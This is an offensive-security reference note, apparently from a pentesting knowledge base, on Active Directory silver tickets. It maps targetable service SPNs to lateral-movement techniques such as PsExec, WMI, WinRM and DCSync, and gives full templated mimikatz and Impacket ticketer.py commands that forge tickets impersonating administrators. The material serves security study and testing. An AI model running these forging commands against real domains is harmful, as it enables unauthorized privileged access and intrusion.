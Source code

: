 Different services are exposed on Windows systems integrated to an Active
Directory domain and can be targeted, through their respective `SPN` in the
form of `<SERVICE_NAME>/<MACHINE_HOSTNAME>`, for persistence and remote access:

| Possible operation | Service(s) | Description | Related note |
|--------------------|------------|-------------|--------------|
| `PsExec`-like <br/> file system access | `CIFS` | Remote execution of commands using `PsExec`-like utilities or full access to the machine file system. | `Windows - Lateral movements` <br/> `[L7] 445 - SMB` |
| `WMI` | `HOST` <br/> `RPCSS` | Remote execution of commands through `Windows Management Instrumentation (WMI)` (`Win32_Process` class for example). | `Windows - Lateral movements` |
| `WinRM` | Always necessary: <br/> `HOST` <br/> `HTTP` <br/> Host dependant: <br/> `WSMAN` <br/> `RPCSS` | `PowerShell remoting` through `Windows Remote Management (WinRM)`. | `Windows - Lateral movements` <br/> `[L7] 5985-5968 - WSMan` |
| Windows services | `HOST` | Remote creation and/or execution of Windows services. | `Windows - Lateral movements` |
| Scheduled tasks | `HOST` | Remote creation and/or execution of Windows scheduled tasks. | `Windows - Lateral movements` |
| `DCSync` <br/> LDAP access  | `LDAP` | `LDAP` requests, and notably allows, for `service tickets` to the `LDAP` service of a `Domain Controller`, the conduct of replication operations (`DCSync`). | `[ActiveDirectory] ntds.dit dumping` |
| `RSAT` | `CIFS` <br/> `LDAP` <br/> `RPCSS` | Use of the PowerShell cmdlets of the Windows `Remote Server Administration Tools (RSAT)` suite. | `[ActiveDirectory] Domain Recon` |

The `HOST` service for Windows machines includes a set of machine built-in
Windows services, such as the `HTTP`, `SCM` and `SCHEDULE` services, etc.

The exhaustive list of services exposed on a Windows machine integrated to an
Active Directory domain can be retrieved using the following PowerShell
command:

```
# DOMAIN_ROOT_OBJECT = "DC=LAB,DC=AD" for example

Get-ADObject -Identity "CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,
<DOMAIN_ROOT_OBJECT>" -properties sPNMappings
```

### Silver tickets generation

The `mimikatz` utility on Windows and the `Impacket`'s `ticketer.py` Python
script can be used to generate `silver tickets`:

```
# (mimikatz) /id: / (ticketer.py) -user-id <USER_RID>
# Impersonated user Relative ID (RID). Default to 500 (Built-in Administrator account RID).

# (mimikatz) /groups: / (ticketer.py) -groups <GROUP_RID | GROUP_RIDS_LIST>
# Impersonated groups membership, in the form of one or a list of groups RID. Default groups RIDs: 513 (Domain Users), 512 (Domain Admins), 520 (Group Policy Creator Owners), 518 (Schema Admins), and 519 (Enterprise Admins, only effective if targeting the root domain).

# (mimikatz) /sids: / (ticketer.py) -extra-sid <EXTRA_SID | EXTRA_SIDS_LIST>
# Additional and arbitrary SID(s) (that may or may not belong to the current domain) to include in the PAC, as if the SIDs were defined in the `SIDHistory` attribute of a domain user.

# (mimikatz) /ptt - Directly inject the generated silver ticket in memory

# From an authorization standpoint, the specified username does not matter.
mimikatz.exe "kerberos::golden /user:<IMPERSONATED_USERNAME> /domain:<DOMAIN_FQDN> /sid:<DOMAIN_SID> /target:<TARGETED_SERVER_FQDN> [/rc4:<TARGETED_SERVICE_ACCOUNT_NTLM_HASH> | /aes128:<TARGETED_SERVICE_ACCOUNT_AES128_KEY> | /aes256:<TARGETED_SERVICE_ACCOUNT_AES256_KEY>] /service:<TARGETED_SERVICE_NAME> [/id:<USER_RID>] [/groups:<GROUP_RID | GROUP_RIDS_LIST>] [/sids:<EXTRA_SID | EXTRA_SIDS_LIST>] /ptt" "exit"

ticketer.py -domain <DOMAIN_FQDN> -domain-sid <DOMAIN_SID> -spn <SERVICE_FULL_SPN> [-nthash <TARGETED_SERVICE_ACCOUNT_NTLM_HASH> | -aesKey <TARGETED_SERVICE_ACCOUNT_AES128_KEY | TARGETED_SERVICE_ACCOUNT_AES256_KEY>] [-user-id <USER_RID>] [-groups <GROUP_RID | GROUP_RIDS_LIST>] -[extra-sid <EXTRA_SID | EXTRA_SIDS_LIST>] <IMPERSONATED_USERNAME>

# Access to a Windows system through WinRM (PowerShell Remoting) using one of the targeted computer secret.
```